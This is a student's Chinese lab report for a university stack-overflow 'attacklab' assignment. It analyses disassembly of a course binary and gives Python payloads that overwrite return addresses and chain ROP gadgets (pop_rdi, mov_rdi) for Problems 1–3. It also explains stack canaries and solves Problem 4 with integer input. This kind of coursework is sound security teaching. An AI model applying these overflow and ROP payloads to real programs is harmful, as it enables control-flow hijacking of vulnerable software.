



# 栈溢出攻击实验

姓名：林心悦

学号：2024201634

## 题目解决思路

### Problem 1: 
- **分析**：

    main函数调用func函数，func函数中有一个strcpy函数。于是想到利用strcpy没有拷贝长度限制的特点让指令跳转到func1处。

    读汇编代码可知，func函数中strcpy的拷贝位置为`-0x8(%rbp)`。因此可以用字符`A`来占16个位置，然后把func1的地址401216放在其后

- **解决方案**：

    ```python
    padding = b"A" * 16
    func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00" 
    payload = padding+ func1_address
    ```
- **结果**：
    

### Problem 2:
- **分析**：

    进入func函数之后，会调用一个memcpy函数，copy的字节长度限制为0x38，可以覆盖旧rbp值和返回地址。

    在pop_rdi中，我们可以把存储旧rbp位置处的值取出赋给rdi。在func2中，函数比较rdi与0x3f8，如果相等，则会调用正确的printf函数。

    因此，这道题有2个思路：

    1. 把旧rbp处的值覆盖成0x3f8，func函数返回地址为pop_rdi的地址，再之前的8字节为func2的起始地址。于是执行完func后，函数先跳转到pop_rdi，把rdi赋值为0x3f8。然后再跳转到func2函数的开头，判断出rdi与0x38f相等，于是跳转到正确的位置。

    2. 直接把func函数返回地址设为func2中正确分支的地址，func函数返回后直接跳到正确分支上调用正确printf函数。
- **解决方案**：
    1. 先跳转到pop_rdi，再跳转到func2函数的开头。

    ```python
    padding = b'A' * 8
    rdi_value = b"\xf8\x03\x00\x00\x00\x00\x00\x00"
    pop_rdi_address = b"\xbb\x12\x40\x00\x00\x00\x00\x00"
    func2_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"
    payload = padding + rdi_value + pop_rdi_address +func2_address
    ```

    2. 直接跳转到func2的正确分支上
    ```python
    padding = b'A' * 16
    func2_address = b"\x4c\x12\x40\x00\x00\x00\x00\x00"
    payload = padding + func2_address
    ```
- **结果**：
    

### Problem 3: 
- **分析**：

    可以在func函数中通过memcpy来进行栈溢出攻击。注意到func1中需要令%edi=0x72，才能输出正确字符串；同时由于代码需要把数存到-0x44(%rbp)等位置的栈上，%rbp的值需要是一个正确或至少合理的值。

    在move_rdi函数中，我们可以直接跳转到4012e6位置，执行下面三行代码，这样就可以设置%rdi的值。
    ```asm
    4012e6:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
    4012ea:	48 89 c7             	mov    %rax,%rdi
    4012ed:	c3                   	ret
    ```
    对于%rbp设置，可以先在gdb中设断点找到原始%rbp的地址，然后把旧rbp位置覆盖成一个合理的栈地址，该地址-8的位置覆盖上%rdi的目标值：0x72。

    不过还有另一个思路，就是直接把返回地址覆盖成func1的正确分支。这时，rbp的值设置可以更加随意一点，只要合理就行。
    
- **解决方案**：
    1. 先把rdi赋值为0x72，再跳转到func1的开头
    ```python
    padding = b'A' * 24
    stack_address = b"\xd0\xd7\xff\xff\xff\x7f\x00\x00"
    func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"
    mov_rdi_address = b"\xe6\x12\x40\x00\x00\x00\x00\x00"
    number = b"\x72\x00\x00\x00\x00\x00\x00\x00"
    payload = padding + number + stack_address + mov_rdi_address + func1_address
    ```

    2. 直接跳转到func1的正确分支上
    ```python
    padding = b'A' * 32
    stack_address = b"\x00\xdc\xff\xff\xff\x7f\x00\x00"
    func1_address = b"\x2b\x12\x40\x00\x00\x00\x00\x00"
    payload = padding + stack_address + func1_address
    ```
- **结果**：
    


### Problem 4: 
- **分析**：体现canary的保护机制是什么

    main函数中使用凯撒解密的方法来解密了两个字符串，并要求输入3次，不过只有最后一次输入是重要的，因为它会设置调用func的参数edi。

    func函数对传入参数%edi有两处限制。一是将它与0xfffffffe按照无符号方式比大小，如果小于这个值则返回。如果大于这个值，则进入循环，最终令edi的值（准确来说，是存edi值的位置的值）-0x7ffffffe，并将其与1比较。如果它不等于1，则输出"No! I will let you fail!"后返回；如果它等于1，则进入func1输出"great!I will give you great scores"。因此，应该输入-1。

    > canary保护机制：
    > 在problem1、2、3中，我使用栈溢出的方式来攻击代码，把目标地址填在原函数发返回地址处。然而，在caesar_decrypt、func和func1的开头和结尾都有几行代码：
    >```
    >mov    %fs:0x28,%rax
    >mov    %rax,-0x8(%rbp)
    >......
    >sub    %fs:0x28,%rax
    >je     
    >```
    >如果-0x8(%rbp)的值不为%fs:0x28，就会触发stack fail警报。我们难以知道%fs:0x28的值，而栈溢出需要先破坏金丝雀，所以它可以有效保护程序运行安全。
- **解决方案**：
    ```
    hi please tell me what is your name?
    lin
    hi! do you like ics?
    yes
    if you give me enough yuanshi,I will let you pass!
    -1
    ```
- **结果**：


## 思考与总结
attacklab难度相对较低，也有可能是经过bomblab和期末复习的轰炸后阅读汇编代码能力有些许提升。最终用时约为6小时完成。